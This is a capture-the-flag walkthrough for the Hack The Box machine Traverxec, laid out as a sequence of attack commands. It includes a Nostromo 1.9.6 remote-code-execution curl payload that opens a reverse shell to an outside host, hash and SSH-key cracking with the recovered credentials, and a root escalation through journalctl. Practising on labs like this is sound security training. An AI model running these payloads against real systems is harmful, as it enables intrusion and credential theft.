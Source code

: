 Here's a clean, organized **Markdown walkthrough** for **HTB: Traverxec**, grouped by exploitation stage with all essential commands and insights:

---

# 🧠 HTB: Traverxec — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `nostromo`, `webshell`, `sudo journalctl`, `ssh key`, `GTFObins`

---

## 📡 Recon

### Full TCP Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.165
```

### Script & Version Scan

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.165
```

- **Ports:** 22 (OpenSSH 7.9p1), 80 (Nostromo 1.9.6)
- **Likely OS:** Debian Buster

---

## 🌐 Web Enumeration

### Web Content

- Default page for **web designer**
- Server: `nostromo 1.9.6` (from HTTP headers)

### Vulnerability Search

```bash
searchsploit nostromo
```

✅ Metasploit RCE found for Nostromo 1.9.6

---

## 🐚 Shell as www-data

### Manual Exploit via Curl

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' \
-d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

### Listener

```bash
nc -lvnp 443
```

✅ Reverse shell as `www-data`

---

## 👤 Priv Esc: www-data → david

### Found htpasswd file

```bash
cat /var/nostromo/conf/.htpasswd
# david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack with Hashcat

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username
# Password: Nowonly4me
```

### Found Homedirs Setting

```bash
cat /var/nostromo/conf/nhttpd.conf
# homedirs /home
# homedirs_public public_www
```

Check:

```bash
ls /home/david/public_www/protected-file-area/
```

✅ Found: `backup-ssh-identity-files.tgz`

### Download via HTTP Auth

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
tar -xzf backup-ssh-identity-files.tgz
```

Contains: Encrypted SSH key for david

### Crack SSH Key

```bash
/opt/john/run/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: hunter

# Save decrypted key:
openssl rsa -in id_rsa -out id_rsa_david
```

### SSH in as david

```bash
ssh -i id_rsa_david david@10.10.10.165
```

📄 `cat user.txt`

---

## 🔓 Priv Esc: david → root

### Found sudo usage in script

```bash
cat ~/bin/server-stats.sh
# Calls: sudo /usr/bin/journalctl -n5 -unostromo.service
```

### Exploit with GTFObins

- **Shrink terminal window**
- Run:

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

- While in less:
```bash
!/bin/bash
```

✅ Root shell!

📄 `cat /root/root.txt`
